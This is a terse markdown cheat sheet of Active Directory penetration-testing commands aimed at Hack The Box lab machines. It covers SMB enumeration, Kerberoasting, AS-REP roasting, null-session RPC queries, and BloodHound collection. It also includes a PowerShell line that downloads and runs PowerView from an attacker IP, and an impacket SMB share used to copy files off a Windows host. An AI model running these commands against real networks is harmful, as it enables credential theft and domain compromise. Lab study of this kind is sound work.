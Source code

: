 ### ACTIVE DIRECTORY

if you have kerberos, dns and ldap, its probably a windows domain controller

#### using SMBMAP

```
smbmap -H 10.10.10.161
smbmap -R <sharename> -H <Host IP>
smbmap -R <sharename> -H <Host IP> -A Groups.xml -q
smbmap -d dom -u usm -p pass -H host
```

#### Once we have a valid credential

`GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/svc_tgs:<PASS>`

`pxexec.py dom/usn:pwd@host`

when yu have a valid credential, you can run

`runas /netonly /user:active.htb\svc_tgs cmd`

on a windows cmdlien, and you'll have access to the remote one

once you run this, you can run bloodhound from your windows boxn from where you have authenticated as the domain user

`.\sharphound.exe -a all -d active.htb --domain-controller 10.10.10.100`

if you're doing sharphound from your windows machine, its worth changing the DNS to the DNS of the domain controller

`GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs:<PASS>`
this is called Kerberoasting ^^

General TIP: when you ping, if the TTL is above 128, usually some network infrastructure, if its b/w 64 and 128, its a windows box, if its 64 or below, its a Linux box

crackmapexec getting password policy

`crackmapexec smb 10.10.10.161 --pass-pol`

#### Nulll auth

just pass -u '' -p '' everywhere

`GetNPUsers.py -dc-ip 10.10.10.161 htb.local/`

`rpcclient -U '' 10.10.10.161`

once in rpc, enumdomusers, queryusergroups <user-rid(0x47b)>, querygroup <group-rid>, queryuser <uesr-rid>

#### SMB server on linux using impacket

`impacket-smbserver sharename $(pwd) -smb2support -user user -password pass`

now on the windows powershell,

```
$pass = convertto-securestring 'guest' -asplaintext -force
$cred = new-object system.management.automation.pscredential('guest', $pass)
new-psdrive -name kalidrive -psprovider filesystem -credential $cred -root \\10.10.14.77\kalishare
```
```alternate to above
net use x: \\10.10.14.77\kalishare /user:guest guest
cmd /c "copy <sourcefile> X:\"
```

#### Powerview

IEX(new-object net.webclient).downloadstring('http://$IP/PowerView.ps1') => this directly import powerview into source

#### LDAPSEARCH

ldapsearch

#### Group Managed Service Accounts - gMSA

can be used on multiple hosts, scheduled tasks

`gMSAs enable automatic password management across multiple computers using Kerberos KDC`

